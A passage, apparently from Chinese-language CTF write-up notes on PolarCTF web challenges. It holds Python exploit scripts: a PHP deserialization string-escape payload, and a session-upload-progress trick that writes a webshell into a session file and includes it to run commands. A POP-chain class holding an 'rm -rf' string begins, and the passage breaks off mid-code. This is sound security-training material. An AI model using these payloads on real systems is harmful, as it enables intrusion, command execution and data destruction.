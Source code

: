 		  url = "http://4a31a66d-0339-4395-bd4f-004af200e72d.www.polarctf.com:8090/"
		  r = requests.post(url, params = {
		      "passwd": """";s:4:"sign";s:6:"ytyyds";s:4:"sbsb";s:6:"123456";}"""
		  }, data = {
		      "name": "gif" * 7
		  })
		  print(r.text)
		  ```
- # safe_include
	- 因为可以写入session并include任意文件，所以可以考虑强制开启session、将webshell写入session并include
	- 服务器会将payload写入session, 可以使用伪协议在url中插入``<?=`$_GET[1]`?>``，然后在服务器将payload写入session后include session
	- ```python
	  url = "http://3bdb9d1f-5542-497c-a851-cb7b41eb396e.www.polarctf.com:8090/"
	  # url = "http://127.0.0.1:8080/"
	  
	  payload = "php://filter/read=a|<?=`$_GET[1]`?>|a/resource=/tmp/sess_test"
	  
	  r = requests.post(
	      url,
	      params={"xxs": payload, "1": "cat /flag"},
	      data={"PHP_SESSION_UPLOAD_PROGRESS": "123123"},
	      files={"file": ("a.txt", "aaa" * 1000 * 50)},
	      cookies={"PHPSESSID": "test"},
	  )
	  print(r.text)
	  ```
- # 苦海
	- 简单POP链，但是flag在`/var/flag.php`，就很扯淡
	- payload构造：
		- ```php
		  <?php
		  class User
		  {
		      public $name = 'PolarNight';
		      public $flag = 'syst3m("rm -rf ./*");';
		  
		      public function __construct()
		      {
		          echo "删库跑路，蹲监狱~";
		      }
		  
		      public function printName()
		      {
		          echo $this->name;
		          return 'ok';
		      }
		  
		      public function __wakeup()
		      {
		          echo "hi, Welcome to Polar D&N ~ ";
		          $this->printName();
		      }
		  